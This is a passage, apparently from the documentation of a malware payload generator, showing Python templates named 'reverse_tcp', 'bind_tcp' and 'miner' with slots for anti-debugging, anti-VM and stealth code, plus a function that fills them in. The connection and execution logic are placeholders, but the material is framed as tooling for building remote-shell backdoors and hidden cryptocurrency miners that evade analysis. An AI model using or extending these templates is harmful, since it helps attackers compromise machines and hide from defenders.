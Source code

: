 ```python
    
    return config.output_file
```

### Payload Templates

Define reusable payload templates:

```python
PAYLOAD_TEMPLATES = {
    'reverse_tcp': """
import socket
import ssl
import struct
import {imports}

{anti_debug_code}

def main():
    {connection_code}
    {execution_code}

if __name__ == "__main__":
    main()
""",
    
    'bind_tcp': """
import socket
import struct
import {imports}

{anti_vm_code}

def main():
    {bind_code}
    {execution_code}

if __name__ == "__main__":
    main()
""",
    
    'miner': """
import socket
import json
import hashlib
import {imports}

{stealth_code}

def mine():
    {mining_code}

if __name__ == "__main__":
    mine()
"""
}

def generate_from_template(template_name, **kwargs):
    """Generate payload from template."""
    template = PAYLOAD_TEMPLATES[template_name]
    return template.format(**kwargs)
```
